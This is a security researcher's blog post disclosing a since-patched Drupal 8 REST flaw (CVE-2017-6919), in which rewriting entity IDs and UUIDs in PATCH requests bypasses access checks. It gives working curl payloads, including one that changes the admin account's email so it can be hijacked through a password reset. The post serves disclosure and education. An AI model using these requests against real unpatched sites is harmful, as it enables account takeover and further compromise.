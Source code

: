 ```yaml
---
layout: post
title:  "Hijacking Drupal admin accounts using REST"
date:   2018-05-21 08:00:00 -0500
category: drupal
---
```

_Note: This exploit was fixed over a year ago as a part of
[SA-CORE-2017-002/CVE-2017-6919], so unless your Drupal 8 site is really,
really out of date, you should not be affected._

When I do security research on Drupal core, I tend to focus on one class of
vulnerability and pursue that until I find something.

You may have heard of [Drupalgeddon], the largest Drupal exploit to date, which
used SQL injection to modify data on vulnerable sites. SQL injection used to be
a lot easier to find, but Drupal core has traditionally been good about
sanitizing user input and forming dynamic queries in a way that’s safe. Even
knowing this, I wanted to find some way to exploit how Drupal executes SQL,
even if that wasn’t a traditional SQL injection attack.

I had been researching REST vulnerabilities at the time, and was poking at
nodes trying to perform malicious POST and PATCH requests to circumvent access
checking, validation, and serialization/normalization. After hours (alright,
more like days) of research, I had nothing. The REST resource for nodes was
solid and the Entity API blocked me every step of the way.

_Note: I researched this vulnerability on Drupal 8.3.1, so if you’re following
along please use that version._

Feeling disparaged, I decided to take a look at the JSON response for a node
again:

```json
{"nid":[{"value":1}],"uuid":[{"value":"c63a2388-8bf8-4f25-b563-8bd88bd1dea1"}],"vid":[{"value":1}],"langcode":[{"value":"en"}],"type":[{"target_id":"article","target_type":"node_type","target_uuid":"ee96e8f7-e0bb-411d-bde3-372e2669721d"}],"status":[{"value":true}],"title":[{"value":"My title"}],"uid":[{"target_id":1,"target_type":"user","target_uuid":"67a7e0a7-57f9-44d0-bbc9-7f43496487c4","url":"\/user\/1"}],"created":[{"value":1526675840}],"changed":[{"value":1526675848}],"promote":[{"value":true}],"sticky":[{"value":false}],"revision_timestamp":[{"value":1526675848}],"revision_uid":[{"target_id":1,"target_type":"user","target_uuid":"67a7e0a7-57f9-44d0-bbc9-7f43496487c4","url":"\/user\/1"}],"revision_log":[],"revision_translation_affected":[{"value":true}],"default_langcode":[{"value":true}],"path":[],"body":[{"value":"\u003Cp\u003EWow the body\u003C\/p\u003E\r\n","format":"basic_html","summary":""}],"comment":[{"status":2,"cid":0,"last_comment_timestamp":1526675848,"last_comment_name":null,"last_comment_uid":1,"comment_count":0}],"field_image":[],"field_tags":[]}
```

The top-level properties there are: nid, uuid, vid, langcode, type, status,
title, uid, created, changed, promote, sticky, revision_timestamp,
revision_uid, revision_log, revision_translation_affected, default_langcode,
path, body, comment, field_image, and field_tags.

When I was trying to exploit REST previously, I was sending bad data for fields
like body (XSS?), path (open redirect?), and field_image (access private
files?). None of this had worked, but I started to wonder about the base fields
in the response, specifically nid and uuid. What happens when you change the ID
or UUID of an entity?

Let’s try it out! We’re going to send a PATCH request for node 1, changing the
nid and title fields in hopes of modifying another entity's data:

```bash
$ curl -u admin:password -X PATCH http://localhost/node/1?_format=json -H 'Content-Type: application/json'
-d '{
      "nid":   [{"value": 2}],
      "type":  "article",
      "title": [{"value": "Hello world"}]
    }'
{"message":"Unprocessable entity: validation failed.\n: The content has either been modified by another user, or you have already submitted modifications. As a result, your changes cannot be saved.\n"}
```

That didn’t work, so next I tried to change the UUID and NID at the same time.
It would make sense that you need to pass a new UUID, as otherwise the UUID
from node 1 would be used, and wouldn't be very unique at all.

Let’s try changing both:

```bash
$ curl -u admin:password -X PATCH http://localhost/node/1?_format=json -H 'Content-Type: application/json'
-d '{
      "nid":   [{"value": 2}],
      "type":  "article",
      "uuid":  [{"value": "6786fd3c-cbc9-49a0-8b07-47ed78ed052e"}],
      "title": [{"value": "Hello world"}]
    }'
{}
```

This is interesting - an empty response was returned, and the response code was
500\.

This error was logged on the server:

```
Drupal\Core\Database\IntegrityConstraintViolationException: SQLSTATE[23000]:
Integrity constraint violation: 19 UNIQUE constraint failed: node.vid:
  UPDATE {node}
    SET nid=:db_update_placeholder_0, vid=:db_update_placeholder_1, type=:db_update_placeholder_2, uuid=:db_update_placeholder_3, langcode=:db_update_placeholder_4
    WHERE nid = :db_condition_placeholder_0; Array ( [:db_update_placeholder_0] => 2 [:db_update_placeholder_1] => 1 [:db_update_placeholder_2] => article [:db_update_placeholder_3] => 6786fd3c-cbc9-49a0-8b07-47ed78ed052e [:db_update_placeholder_4] => en [:db_condition_placeholder_0] => 2 ) in Drupal\Core\Database\Connection->handleQueryException() (line 682 of [redacted]/drupal/core/lib/Drupal/Core/Database/Connection.php).
```

So close! The query got all the way to the database before getting blocked. I
tried passing a random “vid” (revision ID) value, but after some researching
realized that this attack only worked if creating new revisions by default was
disabled for the target Content Type. After more testing I got the exploit
working, and could update any node regardless of my permission level!

The reason this was possible was that the Entity API never expected anyone to
ever update entity keys, so there was never access checking for them. I could
verify how this works in my PHP console:

```php
>>> $user = \Drupal\user\entity\User::getAnonymousUser();
=> Drupal\user\entity\User {#8632
>>> $node = \Drupal::entityTypeManager()->getStorage('node')->load(1);
=> Drupal\node\entity\Node {#9004
>>> // The “status” field can only be changed by users with the
>>> // “administer nodes” permission.
>>> // For details see \Drupal\node\NodeAccessControlHandler::checkFieldAccess
>>> \Drupal::entityTypeManager()
      ->getAccessControlHandler('node')
      ->fieldAccess('edit', $node->getFieldDefinition('status'), $user);
=> false
>>> // There is no explicit access checking for NID!
>>> \Drupal::entityTypeManager()
      ->getAccessControlHandler('node')
      ->fieldAccess('edit', $node->getFieldDefinition('nid'), $user);
=> true
```

To re-cap a bit, the stages of this exploit are:

1. Make an PATCH request to the REST resource for node 1, which our user has
valid access to.
1. Drupal sets the nid to another node's ID (2), and the uuid to a new value.
1. Drupal saves node 1, which generates an SQL query with a “WHERE nid = 2”
condition, allowing updates to node 2’s fields!

The SQL query was fully sanitized, but values and conditions are present that
Drupal did not expect. So strictly no SQL was injected into the query, but the
lack of access checking in the entity API led to an illogical query: “Update
node 1 where the ID is equal to 2”.

Updating arbitrary nodes is fun, but it was quickly clear that the big exploit
here would be to send a PATCH request for the current user, pass the ID of an
admin user, and gain access to their account.

The payload was similar - in this example user 2 changes the email and name of
user 1, which would then let me request a password reset and hijack the
administrative user. Note that the existing password of user 2 (“password”) is
provided as it's required to change the email and name fields:

```bash
$ curl -u admin:password -X PATCH http://localhost/user/2?_format=json -H 'Content-Type: application/json'
-d '{
      "uid":  [{"value": 1}],
      "uuid": [{"value": "2e9403a4-d8af-4096-a116-624710140be0"}],
      "name": [{"value": "yougothacked"}],
      "mail": [{"value": "yougot@hacked.com"}],
      "pass": [{"existing": "password"}]
    }'
```

It worked! Any user with access to update their profile with REST could change
the email and name of any other user on the site. Once an administrative
account has been hacked, attackers can, in the worst case, execute another
exploit to execute remote code on the server.

The Drupal security team treated this as a serious vulnerability and got a fix
out quickly. The code change can be [seen here] - in it the ID and UUID keys
can only be set when an entity is created, not when it’s updated. This was a
great example of a complex problem with a simple exploit and fix.

After the fix for this was released I started working with the security team as
a volunteer, and am now a full member. That means I have less time to research
new vulnerabilities, but am definitely not done hunting yet.

This issue left me wondering about other APIs out there - how many have not
handled the case of a property being changed that eventually results in a SQL
query that updates an unexpected row? Could you replicate this kind of attack
elsewhere, and is there a name for it yet? If I ever end up researching another
API this will definitely be on my list of things to check.

_Thanks to Jess (xjm), Michael Hess, and Moshe Weitzman for reviewing this
before I posted it._

[SA-CORE-2017-002/CVE-2017-6919]: https://www.drupal.org/forum/newsletters/security-advisories-for-drupal-core/2017-04-19/drupal-core-critical-access-bypass
[Drupalgeddon]: https://www.drupal.org/forum/newsletters/security-advisories-for-drupal-core/2014-10-15/sa-core-2014-005-drupal-core-sql
[seen here]: https://cgit.drupalcode.org/drupal/commit/?id=92e613a
